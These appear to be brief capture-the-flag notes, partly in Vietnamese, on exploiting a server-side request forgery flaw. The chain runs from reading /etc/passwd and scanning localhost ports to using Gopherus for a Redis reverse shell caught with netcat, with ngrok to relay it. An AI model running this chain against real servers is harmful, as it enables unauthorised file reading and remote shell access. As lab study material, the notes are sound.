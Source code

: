 ## Step 1: file:///etc/passwd
=> SSRF
## Step 2: Scan port by Intruder of burp suite
url = localhost:$port$
vì nhiều server nó chỉ mở port cho các máy cục bộ kết nối nên scan từ ngoài nhiều khi ko đc (lỗi ở đây là mình lợi dụng localhost)
=> port 6379 (redis)
## Step 3: Gopherus
> gopherus --exploit redis
> reverseshell
## Step 4: 
On my PC: 
> nc -lvnp 1234

up payload to SSRF box.

==> done

# Note: 
if !vps: ==> can use ngrok để có thể nc được ra ngoài LAN
> ngrok tcp 1234
*sửa payload thành url với port của ngrok*
máy mình vẫn nc như trên bình thường.